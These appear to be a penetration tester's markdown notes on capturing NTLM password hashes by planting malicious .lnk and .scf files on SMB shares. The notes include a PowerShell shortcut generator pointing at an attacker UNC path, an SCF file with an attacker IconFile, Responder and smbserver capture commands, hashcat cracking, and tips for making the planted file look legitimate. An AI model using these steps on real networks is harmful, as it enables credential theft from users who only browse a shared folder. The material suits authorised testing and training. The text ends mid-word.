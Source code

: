## .lnk (2019)
## Capturing Hashes with a Malicious .lnk File

Using SCFs no longer works on Server 2019 hosts, but we can achieve the same effect using a malicious [.lnk](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943) file. We can use various tools to generate a malicious .lnk file, such as [Lnkbomb](https://github.com/dievus/lnkbomb),
`python3 .\lnkbomb.py -t 192.168.1.79 -a 192.168.1.21 -s Shared -u themayor -p Password123! -n dc01 --windows`

```
responder -I tun0 -v -dwFP
```
`smbserver.py . . -smb2support`
. We can also make one using a few lines of PowerShell:
#### Generating a Malicious .lnk File
```powershell-session

$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

## scf: 2016 - 
An SCF file can be manipulated to have the icon file location point to a specific UNC path and have Windows Explorer start an SMB session when the folder where the .scf file resides is accessed. 
- If we change the IconFile to an SMB server that we control and run a tool such as [Responder](https://github.com/lgandx/Responder), [Inveigh](https://github.com/Kevin-Robertson/Inveigh), or [InveighZero](https://github.com/Kevin-Robertson/InveighZero), we can often capture NTLMv2 password hashes for any users who browse the share.
## impact:
- Capture ntlm hash for any user trying to access our share
### steps

- create the following file and name it something like `@Inventory.scf` (similar to another file in the directory, so it does not appear out of place). 
- We put an `@` at the start of the file name to appear at the top of the directory to ensure it is seen and executed by Windows Explorer as soon as the user accesses the share. Here 
- we put in our `tun0` IP address and any fake share name and .ico file name.
```shell-session
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```
#### Starting Responder
```shell-session
$ sudo responder -wrf -v -I tun0
```

```shell-session
$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```
and e
